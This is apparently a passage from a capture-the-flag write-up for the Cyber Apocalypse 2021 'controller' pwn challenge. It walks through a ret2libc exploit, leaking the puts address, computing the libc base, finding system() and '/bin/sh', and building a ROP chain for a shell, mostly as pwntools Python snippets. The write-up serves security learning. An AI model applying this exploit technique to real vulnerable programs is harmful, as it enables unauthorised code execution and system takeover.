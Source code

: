 Adding `pwn.p64 (main_addr)` to the end of our ropchain is not necessary to get a libc leak. 
However, we need it to go back to the start of the program and send a second ropchain which will allow us to obtain a shell.

- The leak is present in the second line of the answer so we make two successive calls to `recvline()`

> The first line of the response displays `Problem ingored` because our buffer does not start with` 'y' / 'Y'` ()

```python
r.recvline() # Problem ingored
leak = r.recvline().strip()
puts_addr = pwn.u64(leak.ljust(0x8, b"\x00"))
pwn.info("Puts address: 0x%x" % puts_addr)
```

![](/assets/img/ctf/cyber-apocalypse-2021/pwn/controller/puts_address.png)

- To calculate the base address of the libc, all you have to do is subtract the offset of the `puts()` function in the `libc.so.6` file from the address of the `puts()` function that we just leaked:

```python
libc_base = puts_addr - libc.symbols['puts']
pwn.info("LIBC base: 0x%x" % libc_base)
```

![](/assets/img/ctf/cyber-apocalypse-2021/pwn/controller/libc_address.png)

Now that we have the base address of the LIBC, we will be able to retrieve the addresses of `system()` and "`/bin/sh`".

## 3. Ropchain & ret2libc

- To determine the addresses of `system()` and of "`/bin/sh` ", just do the opposite operation: we add the base address of the libc to the offsets of `system()` and of "`/bin/sh`" in the file `libc.so.6`:

```python
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))
pwn.info("System address: 0x%x" % system_addr)
pwn.info("'/bin/sh' address: 0x%x" % bin_sh_addr)
```

![](/assets/img/ctf/cyber-apocalypse-2021/pwn/controller/system_binsh_addresses.png)

- Now we just have to prepare the ropchain which will allow us to obtain the shell:

```python
ropchain = buffer + pwn.p64(pop_rdi) + pwn.p64(bin_sh_addr) + pwn.p64(system_addr)
```
